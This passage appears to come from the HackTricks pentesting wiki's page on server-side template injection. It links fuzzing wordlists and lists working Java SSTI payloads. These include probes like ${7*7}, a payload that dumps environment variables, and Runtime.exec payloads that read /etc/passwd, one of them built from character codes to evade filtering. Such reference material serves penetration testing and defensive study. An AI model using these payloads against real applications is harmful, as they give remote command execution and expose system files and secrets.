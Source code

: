 ## 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploits)

Exploits

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#generic)

Generic

In this **wordlist** you can find **variables defined** in the environments of some of the engines mentioned below:

- [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt)
 
- [https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java)

Java

**Java - Basic injection**



```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
// if ${...} doesn't work try #{...}, *{...}, @{...} or ~{...}.
```

**Java - Retrieve the systemâ€™s environment variables**



```
${T(java.lang.System).getenv()}
```

**Java - Retrieve /etc/passwd**



```
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
